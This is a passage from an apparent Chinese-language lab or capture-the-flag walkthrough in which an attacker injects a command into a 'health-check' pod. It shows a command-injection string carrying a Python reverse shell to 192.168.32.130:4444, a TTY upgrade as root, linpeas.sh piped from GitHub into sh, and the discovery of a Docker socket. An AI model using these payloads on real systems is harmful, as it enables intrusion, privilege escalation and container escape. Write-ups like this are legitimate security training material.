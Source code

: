 配置反弹shell

```
127.0.0.1;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20230203174412937](../../.gitbook/assets/image-20230203174412937.png)

切换交互式终端

```
# python  -c "import pty;pty.spawn('/bin/bash')"
root@health-check-deployment-fbc7964bc-5l6sx:/# 
```

运行linepeas枚举系统

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

找到docker sock接口

![image-20230203175307779](../../.gitbook/assets/image-20230203175307779.png)

查看版本
